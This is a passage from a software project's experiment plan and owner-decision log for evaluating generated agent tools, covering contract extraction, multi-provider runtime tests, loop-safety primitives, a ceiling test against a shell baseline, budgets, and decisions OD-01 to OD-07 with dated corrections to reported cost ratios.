**provably free of handler invocation, subject to a per-framework router check, with middleware as an
irreducible residue**, and gains a fifth constraint: the precondition must not be scored at operation
granularity. **U-34 resolves**; C-12's carry-forward and C-14's rule are both corrected in the
synthesis.

**What it opened.** **U-39** — method-level reachability may be a schema-only capability, and the
only schema-free alternative is the header D-18 forbids: a schema-free mechanism can be accurate,
complete, or safe, and only two at once. ~~**Blocking for any promise about emitting verb-bearing
tools against a target that publishes no schema.**~~ **Reclassified 2026-08-03 as v2-blocking by the
owner annotation under OD-18 below — the sentence was true when written and is retained in its
original tense; `research/14-architecture-synthesis.md` §5.1 is the authority for U-39's current
status.** And **U-40** — Django's URL resolver carries no
method information, so an undecorated view **executes** on a fabricated-verb probe; it was safe in
the scored run only because static analysis could not recover its methods either, so it never entered
the candidate set. **The probe's safety on that framework is a property of the extractor failing
closed**, which is a coupling between two independently designed components that nothing recorded.

**One methodological result that outranks both.** E14's recall shortfall of 0.9655 **disappeared here
without the defect being fixed**, because the concretised path segment changed from a valid Python
identifier to a hyphenated one and flipped an absorbed handler's response from 404 to 400. Same
defect, same two handlers invoked, accuracy metric at 1.0000 because of a hyphen. **A safety defect
was masquerading as an accuracy metric**, and the metric moved on an undeclared harness constant —
which is C-05's rule arriving in our own numbers rather than in someone else's benchmark.

**Cost.** $0. No model was called.

### E4 — Contract extraction · **DONE**

**Result.** Recorded in [finding 007](./findings/007-contract-extraction.md), at zero model spend.

**Gate adjudication — the gate admits two honest readings and they land on opposite sides.**

| Reading | Count | Rate | Against 0.80 |
|---|---|---|---|
| **Literal** — the extractor produced parameters and a return type | 60 / 69 | **0.8696** | **Clears** |
| **Validated** — it produced both *and* both agree with the framework's published schema | 53 / 69 | **0.7681** | **Misses** |

**The literal reading is what was pre-registered, so the gate clears at 0.8696** — but that is not a
comfortable margin and it must not be quoted without the second row. The gap is entirely explained
by 16 endpoints whose return shape *nobody* declares: not the source, not the decorator, not the
framework. For those, no verifier is constructible short of running the endpoint and observing what
comes back.

**Parameters are recovered exactly: 207 derived, 207 expected, zero mismatches** on name, location,
required flag, and type. Return types show 53 agreements and **zero disagreements**. Exceptions are
the weak component at 53.6% coverage and the only one with no ground truth to check against.

**The most important result is not any of those numbers.** Switching off a single derivation rule —
following an alias generator declared on a base class three files away — leaves **15 of 69 endpoints
(21.7%) with a contract that is fluent, plausible, and wrong about every field name on the wire,
with nothing in the output indicating it.**

That is the **second independent instance of the same hazard** this feature has surfaced. E2 found
extracted docstrings are confidently wrong rather than absent; E4 finds derived contracts can be
too. The pattern is now established well enough to be a design rule rather than an observation:
**a missing field is safe because a consumer can see it is missing; a plausible wrong field is not,
because nothing downstream can tell.** Every derived artifact needs a provenance and confidence
marker, and constitution Principle IV's fail-loudly requirement should be read as covering silent
overconfidence, not just crashes.

**Consequence for E14, folded in below.** The finding observes that deciding whether OpenAPI is an
*input* rather than only a ground truth shares its mechanism with the configuration-reachability
question — both want the same fetch from a running instance. They should be decided together.

### E4 — original definition, retained for the record

**Question.** Can a verifiable contract — parameters, return type, thrown exception classes — be
derived for a promoted endpoint? This is the raw material for constitution Principle I.

**Method.** Parse the signature strings the index already stores (`return_type` is empty across all
63,783 nodes, but signatures like `(): Promise<string[]>` carry the information unparsed), walk the
handler body for raise/throw sites, and resolve referenced types against TypeScript interfaces or
Pydantic models.

**Gate.** **≥ 0.80** of promoted endpoints yield a contract carrying at least parameters and return
type. Below that, contract-derived verification is aspirational rather than achievable, and
Principle I needs amendment rather than quiet non-compliance.

**Cost.** $0.

---

## Stage B — Prove the loop substrate

### E5 — Runtime provider agnosticism · **DONE**

**Question.** Google ADK and the Claude Agent SDK both *document* multi-provider support. Does it
work, and does **tool calling** survive the provider switch?

**Gate, and it cleared.** ADK needed at least two non-Google providers with tool calling intact.
**It drove all four** — Anthropic, OpenAI, xAI, and Google — passing completion, single tool call,
and a chained two-tool sequence on every one. ~~ADK is adopted as the outer runtime on verified
evidence rather than documentation.~~ **Un-adopted 2026-08-03 by OD-15 — the *measurement* stands
and the *adoption* does not.** The four-provider pass was driven through ADK and LiteLLM, so its
provider-capability half transfers to v1 and its adapter-implementation half does not; nothing has
measured any vendor's own SDK doing this in our hands. The same finding's result 7 separately
counted the adapter referencing xAI's opaque reasoning field **zero times under every counting
rule**, which is one of OD-15's three grounds. Recorded in
[finding 003](./findings/003-runtime-provider-agnosticism.md).

**The other half did not clear.** The Claude Agent SDK's own type definition enumerates its
providers as `firstParty`, `bedrock`, `vertex`, `foundry`, `anthropicAws`, `anthropicGoogleCloud`,
`mantle`, and `gateway` — every one a different **hosting surface for Claude models**, not a
different model family. Bedrock passthrough bills Claude tokens to AWS; it does not run Llama.
Pointed at xAI it returns HTTP 400, at OpenAI or Gemini HTTP 404. **"Claude Agent SDK inside coding
nodes" is therefore an Anthropic-only commitment**, and it carries a measured **40× input-context
tax** (1,336 tokens versus 53,859 on an identical task and model). That is an owner decision, now
tracked as D-05 in [`research/14-architecture-synthesis.md`](../../research/14-architecture-synthesis.md).

**Two operational residuals** that must not be lost: LiteLLM ships **no macOS wheel** from 1.92.0
onward, so pin 1.91.4 or verify a build path on the deployment platform; and `grok-4.3` **silently
failed structured output**, returning reasoning prose wrapped around the JSON with no exception
raised, so structured returns must be validated per (provider, model) rather than assumed per
runtime.

**Cost.** $0.09 against a $2.00 ceiling.

### E6 — Graph-loop primitives · **DONE**

**Question.** Does the chosen runtime actually supply the loop-safety machinery the constitution
assumes, or do we build it?

**Result.** Recorded in [finding 006](./findings/006-graph-loop-primitives.md).

| Primitive | Verdict | Evidence |
|---|---|---|
| Checkpoint and resume | **Present, at-least-once** | SIGKILL at iteration 3 of 6; a fresh process resumed and finished with state intact, 5 of 5 trials. But mid-node crashes duplicated side effects, and a loop hosted *inside* a node lost 4 of 4 inner turns |
| Named terminal conditions | **Absent as a taxonomy** | Errors are named well; budget is named only by exception type; completion and cancellation are separable only via a boolean, and only under an experimental flag |
| Budget enforcement | **One dimension of four, and it resets** | `max_llm_calls` genuinely halted the trap at exactly 3. Graph steps are unbounded — 1,292 iterations in 20 seconds. No token or cost ceiling exists at all |
| Deterministic replay | **Present sequentially, absent under fan-out** | Four replays from a byte-identical checkpoint produced one distinct trace — but that is determinism *by construction* rather than by design, since the scheduler dispatches in completion order and the branch latencies were well separated. Fan-out with overlapping latencies produced five distinct orderings in eight runs |

**Gate adjudication.** **Two missing against a threshold of three, so ADK clears** — but the adopt
recommendation is now **qualified**, with roughly **2.5–3.5 weeks** of build work moved onto the
critical path.

**The finding's own caveat, escalated to the owner and since decided as OD-01 below.** If checkpoint
and resume is counted as *missing* — it is at-least-once, and it offers zero granularity inside a
node, which is precisely our intended usage — the count becomes **three**, and ADK is a library we
call rather than a framework we live inside.

**Correction, 2026-08-02.** An earlier version of this section, and the summary in which the
decision was put to the owner, stated that resume "sits behind an `@experimental` flag that defaults
to off." **That is wrong and the argument should not rest on it.** Both configurations resumed
successfully; the default one fast-forwarded past the interrupted node and ran the work node six
times, the resumable one restored to the boundary before it and ran it seven. What `is_resumable`
actually gates is **checkpoint-event emission and the `end_of_agent` marker**, so the real cost of
leaving it off is losing the completion-versus-cancellation signal, not losing resume. Both
configurations are at-least-once. The decision recorded as OD-01 does not change — it turns on
partial-safety-invites-reliance, not on the flag — but a reader working from the incorrect version
would defend the wrong thing.

**The sharpest single gap: the budget resets on resume.** A ceiling of 3 permitted 6 cycles across
two attempts, because the counter lives on the per-invocation context. **An agent that crashes and
retries therefore has no effective ceiling**, which is a direct hazard for unattended operation and
for spend control.

**One estimate that would not improve by switching runtimes.** The 1–1.5 week idempotency and
journaling item is not an ADK deficiency — LangGraph has identical super-step semantics. Only a
durable execution layer underneath avoids it, and whether that is in scope is a separate question
this probe did not answer.

**Cost.** $0.0003 against a $5 ceiling. Twelve of fourteen arms needed no model at all.

---

## Stage C — The gate

### E7 — The ceiling test

**This is the experiment that can end the project, and it is the reason the plan exists.**

**Question.** Does a small, curated set of application-specific tools make an agent measurably better
at real tasks than a capable general agent with only shell and search?

**Method.** Stand up one real, external, data-driven application in a disposable instance with seeded
state the arms cannot read in advance. Hand-write roughly 20 ideal domain tools — *hand-written, so
this measures the ceiling rather than our generator's current skill*. Run a fixed battery of about
40 tasks plus deliberate null tasks that cannot be completed. Every outcome is decided by a
programmatic check against observable state; none by a model's judgment (FR-001). The baseline gets
**at least** the same budget (FR-005).

**Gate — pre-registered, per the kill criteria in [`research/11-validation-plan.md`](../../research/11-validation-plan.md) §7.**

| Result | Consequence |
|---|---|
| Tool arm beats baseline by the pre-registered margin | Proceed to Stage D |
| Tool arm ties baseline within observed noise | **Stop.** Report the tie as a tie; do not round it into a win |
| Tool arm loses | **Stop.** The thesis is dead and the report says so plainly |
| Either arm shows a false-success rate above threshold | Investigate before any other result is quoted |

**Why hand-written tools.** If ideal tools do not beat the baseline, no amount of synthesis quality
rescues the thesis. Measuring the ceiling first means a negative result costs one week rather than
one quarter.

**Cost.** ~$120.

---

## Stage D — Prove synthesis

Everything below requires a **deliberately throwaway generator**, which is why it moves to a
successor feature rather than stretching this one. It runs only if E7 clears.

### E8 — Does synthesis reach the ceiling?

> **⚠️ ONE IDENTIFIER, TWO EXPERIMENTS — AND THIS SECTION IS THE ONE THE LADDER AND THE COST TABLE MEAN.** Flagged 2026-08-10. **No renumbering is taken here**, because which experiment keeps the identifier is an owner's decision and neither option is free of consequence; the options and their blast radius are set out in the [collision note under OD-14](#od-14--the-verifiers-margin-over-an-llm-judge-is-declared-unmeasured-the-production-spec-is-unblocked-and-the-measurement-is-deferred-to-production). This notice exists so nobody traces the ladder into the wrong closure while that decision is open.
>
> **What this section defines** is the Stage-D synthesis experiment described below: three arms on the ceiling test's battery, deferred to feature `002`, never built and never run. The `clears` edge out of the gate in the ladder above reaches *this* experiment, and the Stage D row of the [budget table](#budget-and-the-feature-split) prices *this* experiment.
>
> **What it does not define** is the verifier-vs-judge experiment, which is **E19** and is a different experiment entirely: a contract-derived verifier against a general-purpose LLM judge, with its own harness directory, its own preregistration, its own viability document at [`E8-VIABILITY.md`](./E8-VIABILITY.md) — filed under the name that experiment carried until 2026-08-11 — and findings 015, 017 and 018. That one was built, self-tested, dry-run and deliberately not executed. **It is closed. This one is deferred. They are different states of different experiments, and the closure recorded under OD-14 does not close this section.** *(Until 2026-08-11 both experiments carried this identifier; **OD-31** assigned `E8` to this section and `E19` to the other.)*

**Question.** Do tools generated from the code graph, with an LLM authoring the semantic layer,
recover the advantage that hand-written ideal tools demonstrated?

**Method.** Three arms on E7's identical battery: baseline, generated tools, hand-written ideal
tools. The hand-written arm is the ceiling; the gap between generated and hand-written is precisely
the quality debt.

**Gate.** Generated tools must recover **≥ 70%** of the ceiling's margin over baseline. Below that,
the generator is the bottleneck and needs its own iteration before anything ships.

### E9 — Does promotion selection actually matter?

**Question.** Research claims the moat is *refusing* to generate most tools — roughly 25 from 300
endpoints. Is that true, or does exposing everything work just as well?

**Method.** All discovered endpoints exposed as tools, versus the curated subset, same battery.

**Gate.** Curated must beat exhaustive. **If exposing everything wins, the central differentiating
claim is false**, and the product's positioning changes rather than the experiment being rerun.

---

## Stage E — Prove the agent graph and the memory graph

This is where the paradigm the product is named for gets tested directly.

### E10 — Agent graph: does derived decomposition beat one agent?

**Question.** Does an agent topology *mechanically derived from the code graph* — one agent per
bounded context, artifacts handed along edges — beat a single agent holding every tool?

**Method.** Single agent with all tools versus N agents decomposed by domain, with explicit artifact
handoff between them. Same battery, same budget, decomposition axis as the only variable.

**Gate.** Decomposition must win on task success rate **or** on cost. Research warns that multi-agent
topologies can multiply token spend by roughly 15x ([Anthropic](https://www.anthropic.com/engineering/multi-agent-research-system)), so a marginal accuracy gain purchased at that
price is a loss. **A tie means ship the single agent**, because it is dramatically simpler.

### E11 — Memory graph: does graph memory beat flat memory?

**Question.** Does graph-structured memory — entities, relations, and provenance — measurably
outperform flat file memory for these agents?

**Method.** Three arms over a *sequence* of sessions in which later tasks depend on what earlier ones
discovered: no memory, flat file memory, graph memory. Single-session tasks cannot distinguish these
arms, so the battery must be explicitly multi-session or the experiment is void.

**Gate.** Graph memory must beat flat memory on multi-session success rate. **A tie means flat memory
wins v1** — graph memory is substantially more machinery, and machinery without measured payoff is
the thing this whole program exists to avoid.

**Scope note.** In scope per the 2026-08-02 spec amendment. Deliberately narrow: this measures
whether the topology pays, not how to design the layer.

**Candidate store.** **Neo4j** is the lead candidate for the graph arm and should be treated as the
default unless a probe unseats it. Two alternatives deserve a cheap look before committing, because
the operational cost of a separate database service is real: an embedded graph store requiring no
additional service, and a plain relational schema with an adjacency table, which is often
indistinguishable from a graph database at small scale. **The store choice is subordinate to the
gate** — E11 asks whether graph-shaped memory pays at all, and if it does not, the store question
never arises.

---

## Stage F — Prove writes are safe

### E12 — Effect classification precision

**Question.** Can an operation's effect — read-only, reversible write, irreversible — be classified
accurately enough to ever permit an unattended write?

**Gate.** **≥ 0.98 precision on the irreversible class.** Any irreversible operation labeled
read-only or reversible is a **critical misclassification**, counted separately from ordinary error
(FR-012), because it is a data-loss path.

**Early evidence, already in hand.** Finding 001 established that a verb-only proxy cannot separate
reversible from irreversible writes. A preliminary reading against that weak signal is scheduled
within this feature under User Story 4; the real measurement needs the analyzer and belongs here.

### E13 — Drift detection

**Question.** When the codebase moves and the tool pack does not, does the system fail closed?

**Method.** Mutate the target — rename a route, change a parameter type, delete an endpoint — and
verify the pack detects staleness and refuses rather than calling a contract that no longer exists.

**Gate.** Any silent success against a stale contract is a hard failure of constitution Principle I.

---

## Budget and the feature split

| Stage | Experiments | Model spend |
|---|---|---|
| A — code graph | E1–E4, E14, E15 | $0 |
| B — loop substrate | E5–E6 | ~$10 |
| C — the gate | E7 | ~$120 |
| **Feature 001 subtotal** | | **~$130** |
| D — synthesis | E8–E9 | ~$120 |
| E — agent and memory graphs | E10–E11 | ~$100 |
| F — writes | E12–E13 | ~$30 |
| **Feature 002 subtotal** | | **~$250** |

Feature 001's ceiling is one engineer-week and $300 (SC-003), and Stages A through C fit inside it
with real headroom. Stages D through F do not, and pretending otherwise would just produce a silent
overrun. **They become feature `002-synthesis-spike`, specced only after E7 clears.**

That yields the sequence the product owner asked for:

**001 (analysis and ceiling) → 002 (synthesis, topology, memory) → 003 (the production
specification).** The production spec is written from measured numbers rather than from research
inference, which is the entire point.

## Execution order, which is not the same as the ladder order

Stage A and Stage B run **concurrently**. Stage A costs nothing and needs no credentials; Stage B is
small and already partly in flight. E7 waits for both, because setting it up well depends on knowing
what the analyzer can actually recover and which runtime will host the arms.

Within Stage A the order is strict: E3 depends on E2's fresh index, and E4 depends on E3 having
identified the right handler to read a contract from.

## Standing rules for every experiment

Restated from the spec because they are the difference between evidence and anecdote:

- **No outcome is decided by a model's judgment** (FR-001). Programmatic checks against observable
  state, always.
- **Null tasks in every battery** (FR-003). An arm that claims success on an impossible task is
  reporting a false success, and false-success rate is a co-primary metric, not a footnote.
- **One variable at a time** (FR-004), with the full configuration recorded alongside the result.
- **Negative, null, and ambiguous results are reported with equal prominence** (FR-017). A tie is
  reported as a tie.
- **Every finding states what it does not license** (FR-015) — including the populations the corpus
  fails to represent.
- **Analysis runs on copies** (FR-018). Vendored references and the target monorepo are never
  modified in place.
- **Findings land in `findings/NNN-*.md`**, numbered in completion order, one per experiment or
  tightly-related cluster.

## Owner decisions recorded during execution

### OD-01 — ADK's role: live inside its graph, but own every safety primitive

> ⚠️ **PARTIALLY REVERSED 2026-08-03 by [OD-15](#od-15--adk-is-dropped-for-v1-we-own-the-loop-the-lifecycle-and-the-serving-surface-directly) — read that record before acting on this one. This text is left exactly as decided and is not rewritten.**
>
> **OD-01 was the right decision on the evidence available when it was made**, and nothing below is
> retracted as a *reading of that evidence*. What changed is the product it was taken for: **OD-09**
> (the same day, later) cut v1 to a single-agent, read-only, spec-aware runtime, and against that
> shape three of this decision's four grounds lose their subject or their evidence. **The
> safety-primitive half — "own every safety primitive" — is untouched and was always the load-bearing
> half.** Only the *"live inside its graph"* half is reversed. **The clause to strike specifically is
> "All four are measured working": two of the four were measured, one was measured
> non-compliant with a requirement written later and independently, and one was never measured at
> all.** OD-15 states which is which, lists the nine capabilities that lose an owner, and prices what
> the reversal costs.

**Decided 2026-08-02** in response to E6, as a deliberate blend of the two candidate readings rather
than a choice between them.

**We live inside ADK's graph execution, lifecycle, HTTP/SSE serving, and provider abstraction.** All
four are measured working: E5 verified provider agnosticism with tool calling across four providers,
and E6 found the graph execution itself sound.

**We do not rely on any of ADK's four loop-safety primitives.** We build our own layer *wrapping*
ADK — not forking it, not patching it — covering budget accounting across all four dimensions and
surviving resume, a named terminal taxonomy, journaling and idempotency so a resumed step cannot
duplicate a side effect, and deterministic ordering under fan-out.

**The reasoning.** ADK's safety machinery is not absent, it is partial, and partial is the more
dangerous condition because it invites reliance. The budget that resets on resume is the clearest
case: it looks like a ceiling, and it is not one. Rewriting the parts that work would be waste;
trusting the parts that half-work would be a runaway-cost hazard. So the seam is drawn at
*execution versus safety* rather than at *framework versus library*.

**Cost.** The 2.5–3.5 week estimate from E6 stands, and the 1–1.5 week idempotency component of it
is unavoidable on any current runtime — LangGraph has identical super-step semantics. Only a durable
execution layer underneath removes it, which remains open.

### OD-02 — Coding nodes: our own executor, Claude SDK as an opt-in fast path

**Decided 2026-08-02** in response to E5.

The Claude Agent SDK is Anthropic-only for any genuinely different model family, so a customer who
brings only an OpenAI credential would have no working coding nodes at all. **That is a direct
conflict with bring-your-own-credentials as a hard requirement**, not a performance trade-off. Its
remaining advantages — enforced budget and the tool preset — shrink considerably under OD-01, since
we are building budget enforcement regardless.

**We build the coding-node executor on ADK.** The Claude SDK stays available as an opt-in path for
Anthropic customers, where its 40× input-context tax is a known and accepted cost.

### OD-03 — Constitution amendment to Principle I: ~~drafted, deferred pending E7~~ **APPLIED as v1.1.0**

**Applied 2026-08-02, superseding the deferral recorded below.** The sentence held here is now in
`.specify/memory/constitution.md` in Principle I's Enforcement paragraph, as a MINOR bump from 1.0.0
to **1.1.0**, with owner approval obtained as the amendment procedure requires for a NON-NEGOTIABLE
principle and a Sync Impact Report at the top of the file. The deferral's condition discharged
rather than fired: **E7 returned and did not retire the thesis** — the capability half is
unsupported and the cost half replicated in every family (OD-07), so the product proceeds on a
revised claim and the "moot" limb never came up. The migration plan is empty exactly as predicted,
because nothing has been emitted under 1.0.0.

**The consequence, discharged.** D-17 in the synthesis is no longer *decided but not yet
enforceable*; it is enforceable, and its four requirements now have force through the review gates
rather than through this plan. A derived verifier that carries no independent validation and no
provisional marking is a **merge-blocking** defect from here on, not a recommendation. Propagated at
`research/14-architecture-synthesis.md` §3.1 (the dependency note under the decided table, and the
D-17 and D-02 rows), §8, and in `.cursor/skills/contract-derived-verification/SKILL.md`.

**Everything below is the entry as it stood while deferred, retained for the record and left in its
original tense.**

**Deferred 2026-08-02.** E4 produced a case Principle I does not cover. The principle partitions
nodes into *has a derivable verifier* and *has none*; finding 007 found a third — a verifier that
**was** derived, looks complete, and is wrong. Fifteen of 69 endpoints, fluent and plausible and
wrong about every field name on the wire, with nothing in the output indicating it. Two experiments
have now hit that shape by unrelated mechanisms (E2 on docstrings, E4 on contracts).

**The drafted addition to Principle I's Enforcement paragraph, held for later application:**

> A derived verifier MUST be validated against an artifact its own derivation did not produce. Where
> no independent artifact exists, it MUST be marked provisional and carry its provenance and
> confidence — because a verifier that is complete and wrong is indistinguishable from a correct one
> at the point of use.

**Why deferred rather than applied.** Principle I is NON-NEGOTIABLE, so governance requires explicit
owner approval. The owner deferred until the ceiling test returns, on the reasoning that **if E7
retires the thesis the amendment is moot**. The migration plan is empty either way — nothing has
been emitted under 1.0.0, because no product code exists.

**Consequence to carry.** D-17 in the synthesis (provenance and confidence on every derived
artifact) is **decided but not yet enforceable**, since the constitution does not require it. That
is the mildest form of conditional and the easiest to close: if E7 clears, apply the sentence above
as a MINOR bump to 1.1.0 and D-17 binds.

### OD-04 — What E7 measures: rebalance toward composition *and* raise the budget

**Decided 2026-08-02, after Phase 2 failed calibration twice.** The tool arm scored 96% and then
93% against a decision table that **voids any run above 85%**. The cause was diagnosed rather than
guessed: 27 of 57 tasks were answerable in a single tool call, and the same person authored both the
tasks and the tools they exercise. Finding 005 had named task/tool co-design as a threat;
[finding 008](findings/008-ceiling-test-calibration.md) measured it at 93–96%.

**The decision, both limbs together.** Rebalance the battery toward multi-hop composition *and*
raise the tool arm's turn budget from 20 to 40 so that per-record tasks become admissible. Option 3
from the finding, rather than either single limb.

**Why both rather than one.** The two limbs remove different biases and neither removes the other's.
Rebalancing alone leaves difficulty capped at what a twenty-turn agent can reach, which is why the
harness author declined to build tasks on per-recipe detail fetches — sixty calls against a twenty
-turn budget would have rigged the battery against the tool arm as surely as the original battery
flattered it. Raising the budget alone leaves 27 single-call tasks in place and the ceiling intact.
Taken together they let the battery discriminate on **two axes** — joins with arithmetic, and
per-record breadth — at the cost of a longer setup.

**What this knowingly trades.** Raising the turn budget weakens the *tools are efficient* claim by
construction, since efficiency was partly expressed as a tighter budget. That is accepted: cost per
solved task is still reported per arm, so the efficiency question survives as a **secondary metric
measured directly** rather than as an artifact of asymmetric budgets. Success rate remains primary,
exactly as pre-registered — option 3 in the finding (switching the primary metric after watching it
saturate) was raised only to be rejected, and is rejected here too.

**What it costs in representativeness, stated plainly.** A composition-dominated battery measures
multi-step analytical reasoning over the application's data more than it measures operating the
application the way a person would. **Any win reported from E7 must be qualified as such and MUST
NOT be quoted as a general claim about typical usage.** The battery's job is discrimination; a task
both arms solve trivially teaches nothing regardless of how realistic it is.

**Sequencing amendment — the bias probe moves ahead of the work.** Finding 008 placed the $2
shell-arm probe of the composition family *after* the rebalance. It runs **before**. If the shell
arm is strong on composition — plausible, since aggregating sixty records is one `jq` pipeline in a
shell and several calls through a tool surface — then rebalancing toward composition builds a
battery tilted toward the baseline, and that is worth discovering for $2 rather than after a working
session. Run the tool arm over the same family at the raised 40-turn budget in the same pass, so the
comparison is made at the budget the battery will actually use.

**Standing rule, unchanged and reaffirmed.** The negative control and the write-check verifier run
again after any battery change. Both have found a real defect on **every** occasion they have been
run — four sessions out of four.

### OD-05 — Aggregation tools admitted under a task-blind rule; E7 restructured to report per family

**Decided 2026-08-02, after the OD-04 bias probe met its stop condition.** The probe found the
baseline winning per-record breadth **4/4 against the tool arm's 1/4**, with the tool arm exhausting
its token budget on three of four, and the join family a **tie** at 10 to 9 with both arms failing
the same tasks ([finding 009](findings/009-ceiling-test.md)). Growing `R4` would have built a
battery the baseline wins, which is what OD-04 pre-declared as a stop.

**Limb 1 — the tool surface gains server-side aggregation, under a rule declared before anything is
added.** The surface may contain any tool **a competent engineer would write knowing the application
domain but blind to the specific tasks**. Aggregation over a recipe collection qualifies. A tool
shaped like `count_distinct_recipes_in_breakfast_slots` does not, and neither does any tool whose
existence is justified by a task it is known to solve. Write the rule into `PREREGISTRATION.md`
*before* the tool, and record the addition as a correction to the treatment rather than a response
to a result.

**Why this is a construct-validity repair and not a post-hoc rescue.** The harness author declined
to make this change on his own authority, correctly, and offered the weaker justification —
*aggregation is plainly part of an ideal surface, so its absence was my oversight*. The decisive
argument is different and it is checkable against the artifact history: **the per-record family did
not exist when the tool set was frozen.** OD-04 created it. The treatment was therefore never
designed for the tasks it is losing, because those tasks postdate it by an owner decision. Changing
a treatment to chase a result on a fixed design is p-hacking; updating a treatment after the design
changed under it is repairing the manipulation. The distinction is real, but it holds **only** while
the task-blind rule above holds, which is why the rule is pre-registered rather than assumed.

**The v1 result is preserved and reported, not superseded.** *These twenty hand-written tools push
aggregation through the context window and lose to a `jq` pipeline* is a finding about tool design,
it stands on its own evidence, and it may be the most useful thing E7 has produced. The re-probe
adds a second surface; it does not retire the first. **Both are reported side by side**, and if the
aggregation-equipped surface wins, the product claim sharpens from *tools help* to **tools that
return answers help; tools that return records do not** — which is a synthesis-design constraint,
not a marketing line.

**Limb 2 — E7 reports per family rather than as a single verdict.** The probe already demonstrated
that one aggregate score destroys the result: the tool arm is ~~2.8×~~ **2.20× cheaper per solved
join task and 12× more expensive per solved per-record task**, and averaging those yields a number
describing nothing. *(Figure corrected 2026-08-03 — the 2.8× divided a post-fix cost total by a
pre-fix solved count; see [finding 009](./findings/009-ceiling-test.md) §Limb 1. **The decision this
paragraph records is unaffected**: the argument for per-family reporting is that the two ratios point
in opposite directions, which 2.20× against 12× makes more starkly, not less.)* Per-family reporting is also the form the product decision actually needs, since it says
*which kinds* of operations deserve tools.

**This requires running the arm nobody has run.** The shell baseline has **never** been scored on
the `R1` and `R2` lookup families — 27 tasks where a tool surface is most likely to win, because the
baseline must discover the right endpoint among 259 operations while the tool arm sees twenty named
ones. That region is unmeasured, it is the region most favourable to the thesis, and reporting E7
without it would be as one-sided as the composition family was in the other direction.

**Standing corrections that survive whatever else changes.** Every composition task MUST state
whether a repeatedly scheduled recipe counts once or many times; three were fixed and the ambiguity
is inherent to the phrasing pattern. The battery currently stands at 61 tasks in an intermediate
state that is neither version 1.3.0 nor a rebalance — **no full run may use it**. And the standing
rule from OD-04 holds: a third failed calibration escalates to the owner rather than to another
iteration.

### OD-06 — Reachability is a stage above analysis, not inside it

**Decided 2026-08-02.** D-18 makes a probe of a running deployment a precondition of the pipeline,
while the constitution's Additional Constraints require the knowledge layer to be **rebuildable from
the codebase alone**. Those cannot both hold of a single artifact. **They hold of two.**

**The decision.** The analysis layer emits a candidate set derived from source and nothing else. A
separate reachability stage then annotates that candidate set with what a *named deployment* serves.
Two artifacts, two lifecycles, two version streams.

**Why the seam goes here.** Analysis stays deterministic, cacheable, content-addressable, and —
decisively — **testable against committed fixtures, which Principle VII requires and a network probe
would quietly break**, since a fixture repository has nothing to probe. Folding the probe inward
would make the code graph vary with a deployment it does not describe, and would put a time-varying,
network-dependent input underneath the one artifact the constitution asks to be reproducible from
source. The constitution's constraint therefore **survives unamended**: this resolves the apparent
conflict rather than legislating around it.

**Where D-17's new requirement lands.** *Deployment identity as data* attaches to the reachability
annotation, which is the artifact that actually has a deployment, rather than being smeared across
the code graph, which does not.

**An unplanned benefit, worth stating because it bears on a named differentiator.** Separating the
two makes the emitted catalogue a function of two independently versioned inputs, so **drift in the
codebase and drift in the deployment become separately detectable**. A tool can go stale because the
handler changed or because the deployment stopped serving it, and those want different responses —
regenerate in the first case, fail closed in the second. A single fused artifact cannot tell them
apart. Drift detection is one of the four capabilities the product claims as its differentiators.

**What it costs.** A second artifact to version and content-address, and a pipeline that is visibly
two-stage rather than one. Accepted.

### OD-07 — E7 concludes without a full battery; discovery ends; the claim is revised

**Decided 2026-08-02.** The ceiling test returns its verdict on the per-family evidence, the $120
full battery is **not run**, and feature 001 closes. The next artifact is the production
specification.

**The verdict, stated as measured.** Across all three families scored, **the tool surface never wins
on success rate**: lookups tie 27/27 against 26/27, joins tie, and the per-record family the
baseline wins 4/4 against 2/4 — after the treatment was corrected by adding aggregation under OD-05.
**What replicated in every family is cost: ~~2.8×–9.3×~~ ~~2.2×–9.3×~~ **2.20×–4.366× within session**
cheaper wherever the tool arm succeeds**, direction never reversing — **5.06× per attempted lookup
task** (5.25× per solved), ~~2.8×~~ **2.20× per solved join**, 9.3× on the aggregable per-record
tasks. *(Range restated 2026-08-03 — see the boxed **RESTATEMENT FOR THE OWNER** below. The
per-family figures above are unrevised; what changed is that 4.366× is the drift-immune lookup
measurement and the 9.3× is no longer a range endpoint.)* *(Corrected 2026-08-02:
this entry first read "3–9×", inheriting a range from finding 012's headline that excludes its own
2.8× join figure. The per-family numbers are the ones to quote. The 9.3× also needs its qualifier
attached wherever it travels — it holds on the two tasks the tool arm solved, while across the whole
per-record family the tool arm spent $2.03 against the baseline's $1.06, having burned $1.97 on the
two questions no tool reached.)*

> **Correction, 2026-08-03 — the range has now been wrong in two successive directions, and that
> history is the point. The decision recorded in OD-07 is unchanged.**
>
> What was believed: that the correct range was **2.8×–9.3×**, having been raised on 2026-08-02 from
> "3–9×" specifically to stop quoting a lower bound the data did not support.
>
> What is now known: the lower bound is **2.2×**, so the 2026-08-02 replacement was also too
> generous — in the opposite direction from the error it fixed. The 2.8× divided a post-fix cost
> total by a *pre-fix* solved count of 8 and 7 while the success counts quoted everywhere are the
> post-fix 9 and 10; consistently post-fix the join ratio is **$0.1716 against $0.3769, or 2.20×**
> ([finding 009](./findings/009-ceiling-test.md) §Limb 1). Separately, the lookup and join figures
> were on different denominators — per *attempted* task and per *solved* task — and are now labelled.
>
> **Two qualifications now travel with the join figure**, and both argue against quoting it as a
> rate at all. Removing `R4.001` moves the ratio to **4.20×**, a 91% shift on one task of ten, and
> that task succeeds only because of this plan's own OD-04 budget raise: it consumed **94% of the
> raised 300,000-token cap** and would have failed under the prior 150,000 one, so the comparison
> sits about one turn from being budget-bound. And the ratio ranges over **2.17×–2.73×** depending on
> which of two attempts on the three re-measured tasks is treated as authoritative.
>
> **Scope of this correction.** No decision in OD-07 depends on the magnitude. The direction never
> reverses on any basis, the capability half of the thesis was already not supported, and the
> revision to *cheaper and safer, not more capable* stands as written. What changes is that the
> surviving cost claim is ~~**2.2×–9.3×**~~ **2.20×–4.366× within session** *(narrowed again 2026-08-03 — see the boxed restatement under OD-07)*, and that a figure recomputed twice from unchanged artifacts
> must be quoted with its basis attached — which is the discipline U-42 already asks for and this
> range twice failed to get.

> ## ⚠️ RESTATEMENT FOR THE OWNER, 2026-08-03 — the range moves a third time, and this time not because a number was recomputed
>
> **This is flagged rather than applied silently, and it is the third movement of this range, so read the classification before the numbers.** Nothing below is a correction of an arithmetic error. **No published figure is revised.** What changed is that the *provenance* of each figure was traced to the runs it came from, and two of the four turn out to be immune to a hazard the other two are exposed to.
>
